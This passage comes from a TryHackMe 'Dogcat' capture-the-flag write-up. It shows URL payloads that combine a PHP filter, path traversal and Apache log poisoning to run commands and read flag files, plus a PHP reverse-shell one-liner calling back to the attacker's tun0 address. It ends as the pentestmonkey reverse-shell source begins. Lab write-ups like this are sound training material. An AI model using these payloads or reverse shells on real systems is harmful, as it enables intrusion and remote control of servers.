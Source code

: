 ```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls%20-l
```

![](/static/images/Dogcat-TryHackMe/flag1.png)

Oh hey, there we have our first flag! We can see the content of the file like this:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=cat%20flag.php
```

**It is in the current working directory (/var/www/html/)**

The result:

![](/static/images/Dogcat-TryHackMe/flag1.1.png)

### Flag 2

The second flag is pretty much as easy as the first one, it is just one directory up.

**One up from the current directory (/var/www/)**

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls%20-l%20..
```

![](/static/images/Dogcat-TryHackMe/flag2.png)

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=cat ../flag2_QMW7JvaY2LvK.txt
```

![](/static/images/Dogcat-TryHackMe/flag2.2.png)

For the 3rd and 4th flag we will need a proper reverse shell with root access. I couldn’t get a shell by running a reverse shell from the [PentestMonkey-ReverseShell-CheatSheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), like this:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php -r '$sock=fsockopen("{TUN0}"",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Maybe it was just me, but I decided to just download a php reverse shell from my computer with curl.

For that I used [this](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) reverse shell and modified it with my ip and the 9999 port.

```php:php-reverse-shell.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
```